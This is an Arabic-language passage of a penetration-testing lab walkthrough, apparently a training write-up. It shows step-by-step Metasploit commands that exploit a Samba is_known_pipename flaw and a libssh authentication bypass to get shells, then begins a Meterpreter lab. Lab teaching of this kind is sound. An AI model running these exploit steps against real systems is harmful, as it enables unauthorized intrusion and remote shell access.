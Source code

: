 في هذا اللاب راح نتكلم عن File sharing Services  
ومن الامثله عليه SMB,FTP etc...  

طبعا راح نشوف مع بعض هذا اللاب بنفحص الشبكه او ناخذ التارقت ونزيد اخر رقم 1 ونحصل التارقت  
[nmap -sV -sC 192.189.253.3]  

نشوف الان ان الـ samba شغال وبكذا بنعرف انه linux وكذالك اصدار السيرفس 4.1.17  

وله اكسبلويت في الـ metasploit طبعا خلينا نفتح الفريم وورك ونشوف الاستغلال مع بعض  
[msfconsole]  
[use exploit/linux/samba/is_known_pipename]  
[set RHOST 192.218.210.3]  
[check]  
[exploit] or [run]  

طبعا الان نشوف انه يوم سوينا check قال انه مصاب وفعلا نشوف انه عطانا سيشن  

طبعا تقدر تبحث عن هذا الاستغلال باكثر من طريقه لكن حنا اختصرنا  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الخامس الي هو  

Vulnerable SSH server 
----------------------|  

طبعا في هذا اللاب راح نتكلم عن الـ SSH server له CVE  

طبعا راح نشوف مع بعض هذا اللاب بنفحص الشبكه او ناخذ التارقت ونزيد اخر رقم 1 ونحصل التارقت  
[nmap -sV -sC 192.51.205.3]  

طبعا راح نبحث عن الـ SSH version وراح نشوف انه بنحصل الـ CVE طبعا راح نختصر  
```bash
[msfconsole]  
[use auxiliary/scanner/ssh/libssh_auth_bypass]  
[set RHOSTS 192.51.205.3]  
[set SPAWN_PTY true] لو ماكان قيمته ترو ماراح يفتح لك شيل او يسوي سباون لشيل  
[exploit] or [run]  
```  


ونشوف انه فعلا عطانا الشيل الان ومعنا session  

الى هنا انتهى اللاب نشوف الي بعده   

---

راح نبداء باللاب السادس الي هو  

Meterpreter Basics 
------------------|  


في هذا اللاب راح نفصل شوي في اوامر الـ metasploit خاصة في اوامر الـ meterpretere  


طبعا راح نشوف مع بعض هذا اللاب بنفحص الشبكه او ناخذ التارقت ونزيد اخر رقم 1 ونحصل التارقت  
```bash
nmap -sV -sC 192.189.123.3
```  
